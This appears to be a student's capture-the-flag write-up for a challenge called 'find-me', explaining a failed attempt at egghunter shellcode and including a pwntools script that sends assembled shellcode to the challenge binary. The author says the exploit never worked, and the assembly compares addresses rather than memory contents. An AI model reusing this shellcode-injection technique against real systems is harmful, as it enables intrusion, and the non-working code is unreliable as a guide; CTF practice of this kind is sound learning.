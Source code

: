 ==================================================================



==================================================================
find-me
==================================================================
Flag:
------------------------------------------------------------------
General overview

The egghunter unfortunately eluded me, so I wasn't able to get the flag. My understanding of the program was that the smallbuf was the egghunter, it would loop through all of the memory (I assumed just the stack but this may have been where I went wrong), searching for the egg, in my case 0x13371337. When it found the egg it would jump to it, otherwise it would search increment the address by one and check that.

I went through two different iterations of my egghunter, the first one was based on what I found online, using scasd storing the egg in eax and the value stored in each address in edi, but that didn't work (I included it at the end of the "program used" section in comments). After this I went for what I asumed was the simpler approach which was just loading in the address and using cmp on the two values, but this didn't work either.

I'm pretty annoyed I wasn't to complete this challenge.

------------------------------------------------------------------
Program used

	#!/usr/bin/python

	from pwn import *

	p = process("./find-me")
	#p = remote("plsdonthaq.me", 3003)

	p.recvuntil("new stack ")
	address = p.recvuntil("\n", drop=True)
	address = int(address, 16)

	p.recvuntil("smallbuf shellcode")

	payload = asm("""

	    xor ecx, ecx
	    lea ecx, [esp]

	inc:
	    inc ecx

	test:
	    mov eax, ecx

	    cmp eax, 0x13371337
	    jnz inc

	    jmp ecx

	    """)

	p.sendline(payload)
